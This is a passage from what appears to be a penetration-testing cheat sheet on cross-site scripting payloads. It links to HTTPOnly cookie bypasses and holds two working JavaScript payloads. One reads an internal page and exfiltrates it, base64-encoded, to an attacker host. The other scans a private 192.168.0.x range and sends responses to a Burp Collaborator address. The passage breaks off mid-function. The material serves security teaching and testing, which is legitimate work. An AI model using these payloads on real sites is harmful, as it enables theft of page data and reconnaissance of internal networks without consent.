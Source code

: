 ```javascript
```

{% hint style="info" %}
You **won't be able to access the cookies from JavaScript** if the HTTPOnly flag is set in the cookie. But here you have [some ways to bypass this protection](../hacking-with-cookies/#httponly) if you are lucky enough.
{% endhint %}

### Steal Page Content

```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

### Find internal IPs

```html
<script>
var q = []
var collaboratorURL = 'http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net';
var wait = 2000
var n_threads = 51

// Prepare the fetchUrl functions to access all the possible
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(){
        fetchUrl(url, wait);
    }
  }('http://192.168.0.'+i+':8080'));
}

// Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
for(i=1; i<=n_threads; i++){
  if(q.length) q.shift()();
}

function fetchUrl(url, wait){
    console.log(url)
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
        location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
    }
  ))
  .catch(e => {
  if(!String(e).includes("The user aborted a request") && q.length) {
    q.shift()();
  }
  });

  setTimeout(x=>{
```